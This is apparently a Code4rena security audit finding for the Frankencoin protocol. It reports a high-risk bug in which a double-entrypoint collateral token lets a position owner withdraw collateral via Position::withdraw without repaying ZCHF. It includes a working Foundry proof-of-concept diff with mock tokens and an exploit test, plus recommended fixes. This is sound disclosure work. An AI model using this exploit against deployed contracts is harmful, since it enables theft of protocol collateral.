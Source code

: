## Tags

- bug
- 3 (High Risk)
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-02

# [[H-06] Double-entrypoint collateral token allows position owner to withdraw underlying collateral without repaying ZCHF](https://github.com/code-423n4/2023-04-frankencoin-findings/issues/886) 

# Lines of code

https://github.com/code-423n4/2023-04-frankencoin/blob/1022cb106919fba963a89205d3b90bf62543f68f/contracts/Position.sol#L245-L255


# Vulnerability details

## Impact

`Position::withdraw` is intended to allow the position owner to withdraw any ERC20 token which might have ended up at position address. If the collateral address is passed as argument then `Position::withdrawCollateral` is called to perform the necessary checks and balances. However, this can be bypassed if the collateral token is a double-entrypoint token.

Such tokens are problematic because the legacy token delegates its logic to the new token, meaning that two separate addresses are used to interact with the same token. Previous examples include TUSD which resulted in [vulnerability when integrated into Compound](https://blog.openzeppelin.com/compound-tusd-integration-issue-retrospective/). This highlights the importance of carefully selecting the collateral token, especially as this type of vulnerability is not easily detectable. In addition, it is not unrealistic to expect that an upgradeable collateral token could become a double-entrypoint token in the future, e.g. USDT, so this must also be considered.

This vector involves the position owner dusting the contract with the collateral token's legacy counterpart which allows them to withdraw the full collateral balance by calling `Position::withdraw` passing the legacy address as `token` argument. This behaviour is flawed as the position owner should repay the ZCHF debt before withdrawing their underlying collateral.

## Proof of Concept

Apply the following git diff:

```diff
diff --git a/.gitmodules b/.gitmodules
index 888d42d..e80ffd8 100644
--- a/.gitmodules
+++ b/.gitmodules
@@ -1,3 +1,6 @@
 [submodule "lib/forge-std"]
 	path = lib/forge-std
 	url = https://github.com/foundry-rs/forge-std
+[submodule "lib/openzeppelin-contracts"]
+	path = lib/openzeppelin-contracts
+	url = https://github.com/openzeppelin/openzeppelin-contracts
diff --git a/lib/openzeppelin-contracts b/lib/openzeppelin-contracts
new file mode 160000
index 0000000..0a25c19
--- /dev/null
+++ b/lib/openzeppelin-contracts
@@ -0,0 +1 @@
+Subproject commit 0a25c1940ca220686588c4af3ec526f725fe2582
diff --git a/test/DoubleEntryERC20.sol b/test/DoubleEntryERC20.sol
new file mode 100644
index 0000000..b871288
--- /dev/null
+++ b/test/DoubleEntryERC20.sol
@@ -0,0 +1,74 @@
+// SPDX-License-Identifier: MIT
+pragma solidity ^0.8.0;
+
+import "../lib/openzeppelin-contracts/contracts/access/Ownable.sol";
+import "../lib/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
+
+interface DelegateERC20 {
+    function delegateTransfer(address to, uint256 value, address origSender) external returns (bool);
+    function delegateBalanceOf(address account) external view returns (uint256);
+}
+
+contract LegacyToken is ERC20("LegacyToken", "LGT"), Ownable {
+    DelegateERC20 public delegate;
+
+    constructor() {
+        _mint(msg.sender, 100 ether);
+    }
+
+    function mint(address to, uint256 amount) public onlyOwner {
+        _mint(to, amount);
+    }
+
+    function delegateToNewContract(DelegateERC20 newContract) public onlyOwner {
+        delegate = newContract;
+    }
+
+    function transfer(address to, uint256 value) public override returns (bool) {
+        if (address(delegate) == address(0)) {
+            return super.transfer(to, value);
+        } else {
+            return delegate.delegateTransfer(to, value, msg.sender);
+        }
+    }
+
+    function balanceOf(address account) public view override returns (uint256) {
+        if (address(delegate) == address(0)) {
+            return super.balanceOf(account);
+        } else {
+            return delegate.delegateBalanceOf(account);
+        }
+    }
+}
+
+contract DoubleEntryPoint is ERC20("DoubleEntryPointToken", "DET"), DelegateERC20, Ownable {
+    address public delegatedFrom;
+
+    constructor(address legacyToken) {
+        delegatedFrom = legacyToken;
+        _mint(msg.sender, 100 ether);
+    }
+
+    modifier onlyDelegateFrom() {
+        require(msg.sender == delegatedFrom, "Not legacy contract");
+        _;
+    }
+
+    function mint(address to, uint256 amount) public onlyOwner {
+        _mint(to, amount);
+    }
+
+    function delegateTransfer(address to, uint256 value, address origSender)
+        public
+        override
+        onlyDelegateFrom
+        returns (bool)
+    {
+        _transfer(origSender, to, value);
+        return true;
+    }
+
+    function delegateBalanceOf(address account) public view override onlyDelegateFrom returns (uint256) {
+        return balanceOf(account);
+    }
+}
diff --git a/test/GeneralTest.t.sol b/test/GeneralTest.t.sol
index 402416d..9ce13cd 100644
--- a/test/GeneralTest.t.sol
+++ b/test/GeneralTest.t.sol
@@ -14,6 +14,7 @@ import "../contracts/MintingHub.sol";
 import "../contracts/PositionFactory.sol";
 import "../contracts/StablecoinBridge.sol";
 import "forge-std/Test.sol";
+import {LegacyToken, DoubleEntryPoint} from "./DoubleEntryERC20.sol";
 
 contract GeneralTest is Test {
 
@@ -24,6 +25,8 @@ contract GeneralTest is Test {
     TestToken col;
     IFrankencoin zchf;
 
+    LegacyToken legacy;
+    DoubleEntryPoint doubleEntry;
     User alice;
     User bob;
 
@@ -35,10 +38,41 @@ contract GeneralTest is Test {
         hub = new MintingHub(address(zchf), address(new PositionFactory()));
         zchf.suggestMinter(address(hub), 0, 0, "");
         col = new TestToken("Some Collateral", "COL", uint8(0));
+        legacy = new LegacyToken();
+        doubleEntry = new DoubleEntryPoint(address(legacy));
         alice = new User(zchf);
         bob = new User(zchf);
     }
 
+    function testPoCWithdrawDoubleEntrypoint() public {
+        alice.obtainFrankencoins(swap, 1000 ether);
+        emit log_named_uint("alice zchf balance before opening position", zchf.balanceOf(address(alice)));
+        uint256 initialAmount = 100 ether;
+        doubleEntry.mint(address(alice), initialAmount);
+        vm.startPrank(address(alice));
+        doubleEntry.approve(address(hub), initialAmount);
+        uint256 balanceBefore = zchf.balanceOf(address(alice));
+        address pos = hub.openPosition(address(doubleEntry), 100, initialAmount, 1000000 ether, 100 days, 1 days, 25000, 100 * (10 ** 36), 200000);
+        require((balanceBefore - hub.OPENING_FEE()) == zchf.balanceOf(address(alice)));
+        vm.warp(Position(pos).cooldown() + 1);
+        alice.mint(pos, initialAmount);
+        vm.stopPrank();
+        emit log_named_uint("alice zchf balance after opening position and minting", zchf.balanceOf(address(alice)));
+
+        uint256 legacyAmount = 1;
+        legacy.mint(address(alice), legacyAmount);
+        uint256 totalAmount = initialAmount + legacyAmount;
+        vm.prank(address(alice));
+        legacy.transfer(pos, legacyAmount);
+        legacy.delegateToNewContract(doubleEntry);
+
+        vm.prank(address(alice));
+        Position(pos).withdraw(address(legacy), address(alice), initialAmount);
+        emit log_named_uint("alice collateral balance after withdrawing collateral", doubleEntry.balanceOf(address(alice)));
+        emit log_named_uint("alice zchf balance after withdrawing collateral", zchf.balanceOf(address(alice)));
+        console.log("uh-oh, alice withdrew collateral without repaying zchf ://");
+    }
+
     function initPosition() public returns (address) {
         alice.obtainFrankencoins(swap, 1000 ether);
         address pos = alice.initiatePosition(col, hub);
```

## Tools Used

- Manual review
- Foundry

## Recommended Mitigation

- Validate the collateral balance has not changed after the token transfer within the call to `Position::withdraw`.
- Otherwise, consider restricting the use of `Position::withdraw` or remove it altogether.
